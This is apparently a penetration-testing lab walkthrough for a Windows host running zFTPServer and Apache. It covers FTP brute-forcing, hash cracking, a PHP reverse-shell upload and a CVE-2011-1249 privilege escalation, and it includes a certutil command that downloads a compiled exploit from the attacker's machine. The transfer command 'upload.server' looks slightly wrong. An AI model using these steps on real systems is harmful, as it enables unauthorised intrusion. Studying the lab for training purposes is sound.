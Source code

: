 
# Host:
```
192.168.164.46
```

# Nmap
```
PORT     STATE SERVICE            REASON          VERSION
21/tcp   open  ftp                syn-ack ttl 125 zFTPServer 6.0 build 2011-10-17
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| total 9680
| ----------   1 root     root      5610496 Oct 18  2011 zFTPServer.exe
| ----------   1 root     root           25 Feb 10  2011 UninstallService.bat
| ----------   1 root     root      4284928 Oct 18  2011 Uninstall.exe
| ----------   1 root     root           17 Aug 13  2011 StopService.bat
| ----------   1 root     root           18 Aug 13  2011 StartService.bat
| ----------   1 root     root         8736 Nov 09  2011 Settings.ini
| dr-xr-xr-x   1 root     root          512 Jul 09 00:09 log
| ----------   1 root     root         2275 Aug 08  2011 LICENSE.htm
| ----------   1 root     root           23 Feb 10  2011 InstallService.bat
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 extensions
| dr-xr-xr-x   1 root     root          512 Nov 08  2011 certificates
|_dr-xr-xr-x   1 root     root          512 Mar 23 13:28 accounts
242/tcp  open  http               syn-ack ttl 125 Apache httpd 2.2.21 ((Win32) PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (Win32) PHP/5.3.8
| http-auth: 
| HTTP/1.1 401 Authorization Required\x0D
|_  Basic realm=Qui e nuce nuculeum esse volt, frangit nucem!
|_http-title: 401 Authorization Required
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3145/tcp open  zftp-admin         syn-ack ttl 125 zFTPServer admin
3389/tcp open  ssl/ms-wbt-server? syn-ack ttl 125

```
- Bruteforced ftp at port 21 to get *admin:admin* and found a password file in ftp server with hashes
- Cracked hashes to get *offsec:elite* now we can access the website on port 242
- We can access files we put through ftp in browser so uploaded a php reverse shell and accessed through browser to get a reverse shell.
- Now we got a shell:
![](../attachment/b645eefa707314be4dadf1634f04918e.png)
# Privilege escalation

Checking privileges:
```
whoami /priv
```
![](../attachment/cd96af697fc4579308288055438e4b66.png)
PrintSpoofer didn't work.

We can use this exploit: https://github.com/Sp3c73rSh4d0w/CVE-2011-1249
```
git clone https://github.com/Sp3c73rSh4d0w/CVE-2011-1249.git
cd CVE-2011-1249/
i686-w64-mingw32-gcc 40564.c -o newshell.exe -lws2_32
```
Now we have compiled the exploit.

Now transferring it:
```
python3 -m upload.server 80
```
```
certutil -urlcache -f http://192.168.45.244/newshell.exe newshell.exe
```

Now running it:
![](../attachment/432c2e6d69bc23602e001e333dc69c48.png)

![](../attachment/6a2a84fa3cd3ec8ed06bd465e610d161.png)
We have shell as **nt authority/system**

